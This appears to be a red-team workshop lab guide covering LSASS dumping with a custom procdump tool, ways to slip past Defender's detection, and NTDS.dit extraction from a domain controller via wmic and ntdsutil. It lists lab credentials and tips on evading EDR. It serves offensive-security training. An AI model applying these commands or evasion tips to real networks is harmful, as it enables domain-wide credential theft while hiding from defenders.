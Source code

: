 # Advanced Credential Grabbing

Mimikatz is very burned, but you can still use its functionality on your attacker device where you don't have to worry about detections.  No reason the re-invent the wheel here, but custom tooling is required to get around the standard detections built in to most EDRS.

If you are looking to understand what part of various malware or attacker tools is being detected you can use defender check.

This tool will leverage the current database of defender and identify the area of a binary or file that is triggering a given alert.  This only works for static detections, not for heuristic or behavioral detections.

> **OPSEC NOTES**:
> - This can be ran remotely
> - You could have this feed out to a listenting IP/Port
> - Can be ran as an injected dll in another service.
> - the dump file itself is signatured by defender, much less the tools that generate it


## Custom LSASS Dump

> Turning defender off, can either be difficult, or not guarunteed to stay that way due to domain policies, or even other EDR implementations. So what to do?
> Even using AMSI bypasses can be concerning these days due to the frequency at which the signature are updated even for the bypasses. 
> More advanced actors are using custom tooling.  There are two considerations.  Executables can be executed in memory, but then the process is not directly tied to an executable. So you can inject into another process that is already running, which is really the way to go.
> Other options are to bring your own executable, or use signed executables already on the box to execute DLL files through sideloading to do your bidding.

Some examples of these techniques are what we will cover here and in the other adanced modules.

1. From the Lighteater (Attacker Box), RDP into the TWORIVERS (client) with the local administrator account.  TWORIVERS\Administrator:Summerishere@2023!
2. Ensure windows defender is turned back on. `Set-MpPreference -DisableRealtimeMonitoring 0`
2. Open an Administrative powershell terminal.
3. Change directory `cd c:\Users\Public\Desktop\LAB_FILES\assets`
4. Expand the archive for mimikatz again.
`expand-archive mimikatz_trunk.zip`
> Note: https://github.com/matterpreter/DefenderCheck
5. Unzip the custom-procdump folder.
`expand-archive .\custom-procdump.zip`
5. CD into the "custom-procdump" folder.
6. Execute the nimprocdump.exe program. 
```powershell
.\nimprocdump.exe
```
![Proc Dump Output](./nimprocdump.png)

> This will find the process with lsass, and dump it into a file.  Important not to add this kind of info into a command line while you have commandline process auditing on. Which is why you build the options into the executable, and then additional information like PIDs are logged as arguments, which can later be used for detections.

This is detected and the proc.dump file is deleted.  Oh no!
![Proc Dump Alert](./nimprocdump-alert.png)

> Notice it is not deleting the .exe and the alert is actually focused on that processes dump the proc.dump file.  So likely the alert is focused on the file itselt.

7. This time, lets simply rename the lsass.dump file.  
```powershell
.\nimprocdump.exe; rename-item c:\proc.dump c:\not.dump
```

> There are still alerts but the lsass.dump file is not deleted.
> Notice what happens when we run with cmd.exe
> How easy is it to change the file?

Let's talk about what else we should do.



## Create Domain Save with 
https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/

If you then end up with domain creds, one next step can be to grab the has credentials from the entire domain of course! There are a number of ways that have been flagged to essentaill steal the ntds.dit file from the Domain Controller.

Notes: VSSADMIN gets caught because it's use is so commonly associated with the steps that happen before you are ransomed.  Other tools like ninja copy require extended interaction within a remote session of powershell and loading of an additional library, all super noisy.

> If you can't tell, I reall think using tools that already exist on the sytem, or are commonly used by admins helps stay under the radar, and it makes detections for automated tooling really difficult. One such way is to use the ntdsutil tool that is built into domain controllers to create backup media.  Further, using wmic is just really hard to catch.  This is being actively used in the volt typhoon campaigns.

1. Remote into the TWORIVERS (client ) 172.31.24.111 with the domain admin credentials: wheel\ralthor : JustAn0therG!ng3r
2. As this user, open a administrative command prompt. (Leave defender on.)
3. Run the following command to launch this remote process on the Domain Controller using an administrative command prompt. Not powershell, the escape characters are different.

```batch
wmic /node:tarvalaon.wheel.co /user:wheel\Administrator /password:12qwaszx!@QWASZX process call create "cmd.exe /c mkdir C:\Windows\temp"
wmic /node: /user:wheel\Administrator /password:12qwaszx!@QWASZX process call create "cmd.exe /c ntdsutil \"ac i ntds\" ifm \"create full c:\Windows\temp\pew\" q q"
```

4. From you here you would retieve the file and unpack it to dump all the users and associated hashes without making really loud dcsync requests.

5. You can use the impackt secrets dump to dump hashes out fo the ntds.dit file.
[Secrets Dump Walk Through](https://airman604.medium.com/dumping-active-directory-password-hashes-deb9468d1633#:~:text=Using%20the%20two%20saved%20files%20%28NTDS.dit%20and%20SYSTEM,domain%20controller%29%3A%20secretsdump.py%20-system%20%3Cpath_to_system_hive%3E%20-ntds%20%3Cpath_to_ntds.dit%3E%20LOCAL)


> From here you sould properly cover your tracks, but that is a different workshop.

